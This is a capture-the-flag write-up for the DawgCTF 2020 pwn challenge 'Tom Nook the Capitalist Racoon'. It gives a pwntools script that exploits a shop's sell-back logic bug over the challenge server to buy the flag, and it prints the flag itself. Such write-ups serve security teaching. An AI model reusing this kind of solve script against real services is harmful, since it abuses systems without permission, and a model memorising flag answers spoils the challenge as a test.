 # DawgCTF 2020

## Tom Nook the Capitalist Racoon

> 200
>
> Anyone else hear about that cool infinite bell glitch?
>
> `nc ctf.umbccd.io 4400`
>
> Author: trashcanna
> 
> [animal_crossing](animal_crossing)

Tags: _pwn_


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.  This is going to be hard...


#### Decompile with Ghidra

Nothing obvious stood out. I suppose with enough analysis one could find the bug.


#### Mess around with it, get lucky

You can do this yourself, the binary is here.  All you do is buy a tarantula, then sell it back over and over until you have enough coin (bells) to buy the flag.

_Why a tarantula?_

It has the highest value, however, you can sell back the last item in your inventory as many times as you like (tested with _flimsy net - a great way to catch bugs! Price: 400 bells_--over 1000 iterations!)


### Solution

```
from pwn import *

#p = process('./animal_crossing')
p = remote('ctf.umbccd.io', 4400)

p.recvuntil('Choice: ')
p.sendline('2')
p.recvuntil('flag - 420000 bells\n')
p.sendline('2')

for i in range(int(420000 / 8000) + 1):
    print(i)
    p.recvuntil('Choice: ')
    p.sendline('1')
    p.recvuntil('tarantula - I hate spiders! Price: 8000 bells\n')
    p.sendline('5')

p.recvuntil('Choice: ')
p.sendline('1')
p.recvuntil('tarantula - I hate spiders! Price: 8000 bells\n')
p.sendline('1')

p.recvuntil('Choice: ')
p.sendline('2')
p.recvuntil('flag - 420000 bells\n')
p.sendline('6')

p.recvuntil('Choice: ')
p.sendline('1')
_ = p.recvuntil('tarantula - I hate spiders! Price: 8000 bells\n')

print(_)
```

#### Output

```
# time ./exploit.py
[+] Opening connection to ctf.umbccd.io on port 4400: Done
0
1
...51
52
b"\n
Of course! What exactly are you\n
offering?\n
1. flag - DawgCTF{1nf1n1t3_t@rantul@$} Price: 420000 bells\n
2. olive flounder - it's looking at me funny Price: 800 bells\n
3. slingshot - the closest thing you can get to a gun Price: 900 bells\n
4. flimsy shovel - for digging yourself out of debt Price: 800 bells\n
5. tarantula - I hate spiders! Price: 8000 bells\n"

real    1m43.248s
user    0m0.476s
sys     0m0.143s
```

#### Flag

```
DawgCTF{1nf1n1t3_t@rantul@$}
```
